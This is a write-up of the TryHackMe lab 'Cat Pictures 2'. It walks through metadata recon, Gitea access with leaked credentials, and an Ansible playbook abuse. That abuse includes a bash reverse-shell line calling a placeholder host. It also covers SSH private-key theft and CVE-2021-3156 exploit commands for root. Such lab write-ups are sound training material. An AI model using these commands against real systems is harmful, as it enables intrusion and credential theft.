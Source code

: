 # Cat Pictures 2

This is a writeup for the TryHackMe room [Cat Pictures 2](https://tryhackme.com/room/catpictures2).

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/4c424fa649d64938ae8282b14e4299ac.png" width="128" />

Main parts of the room:

- Reading image metadata
- Accessing Gitea and editing files using Git or in-browser editor
- Runnig custom Ansible tasks through OliveTin
- Exploiting CVE-2021-3156

## Footprinting

Firstly, we can start with a nmap scan.

We find five open ports and three web servers publicly accessible.

```bash
nmap -sS <HOST>
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/nmap.png" />

```
22 -> SSH
80 -> Lychee Photo Album
222 -> Gitea SSH (?)
3000 -> Gitea
8080 -> python server (?)
```

## First flag

### Finding interesting metadata

We can start by looking inside the Lychee Photo Album.

In the info of the first image we can find a message about stripping away the metadata.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/image.png" />

Once the image is downloaded, we can check its metadata to find an url to a secret txt note.

```
exiftool image.jpg
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/metadata.png" />

### The secret note

The url is `:8080/764efa883dda1e11db47671c4a3bbd9e.txt`

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

### Accessing Gitea

Now, we have the credentials for the gitea instance.

Once logged in, we can see a repository called `ansible`.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/repo.png" />

Inside the repository there is a file called `flag1.txt`. Open it to get the first flag.

## Second flag

### Running Ansible tasks using OliveTin

From the secret note, we know that Ansible is accessible on the port 1337.

There we can find a OliveTin instance that allows to run the Ansible tasks.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/ansible.png" />

### Editing the playbook

It is possible to change the script `playbook.yml` through Gitea and then run it from OliveTin.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/edit.png" />

Firstly, we can print the content of the home folder.

Following the example script, this is a possible solution.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print home folder
      become: false
      command: ls -lR ~
      register: ls_content
      changed_when: false

    - debug: var=ls_content
```

Run the script and check the output.

We can see that in the home folder there is a file called `flag2.txt`.

We can edit again the script to print the content of the flag.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print flag2
      become: false
      command: cat flag2.txt
      register: flag2
      changed_when: false

    - debug: var=flag2
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/ansible-output.png" />

If you check the output, you can see the second flag.

## Third flag

### Obtaining a reverse shell

For the third flag, it is better to use a reverse shell.

At this link you can find an example:

[https://gist.github.com/Reelix/32ccf1baaa3066654a460265fca53960](https://gist.github.com/Reelix/32ccf1baaa3066654a460265fca53960)

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/rev.png" />

### Stealing ssh keys

To make the work easier, we can also steal the ssh key.

It is enough to copy the content of `~/.ssh/id_rsa` and paste it in a file on our machine.

Then, we can use the command `ssh -i <FILE> bismuth@<HOST>` to login.

### Exploiting CVE-2021-3156

We can try with LinPeas and LinEnum, but a faster way is to exploit the CVE-2021-3156 vulnerability.

[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

Download the file from the github repo and copy them on the machine.

After that, follow the instructions to exploit the vulnerability.

In the end, you should run something like this:

```bash
# build the exploit
make

# obtain a list of possible targets
./sudo-hax-me-a-sandwich

# select a target
./sudo-hax-me-a-sandwich 0
```

The third flag is in the root folder.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/pe.png" />
